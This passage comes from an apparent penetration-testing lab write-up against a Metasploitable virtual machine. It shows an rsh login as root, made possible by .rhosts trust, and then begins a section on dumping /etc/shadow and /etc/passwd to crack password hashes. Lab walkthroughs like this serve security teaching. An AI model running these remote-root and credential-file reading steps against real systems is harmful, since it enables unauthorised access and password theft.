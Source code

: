 Let's test this:

Run in Kali terminal (not exploit shell):

```bash
rsh 192.168.100.10 -l root
```

**Result:**

```
Last login: Fri Jul 11 10:24:15 EDT 2025 from 192.168.100.10 on pts/1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~#
```

Just like that, we have remote root access!
 
![Using .rhosts and rsh to gain remote root access](images/Using_.rhosts_and_rsh_to_gain_remote_root_access.png)

---

## Extracting and Cracking Password Hashes
Now we can use our root access to crack password hashes!
Use:

```bash
cat /etc/shadow
cat /etc/passwd
```
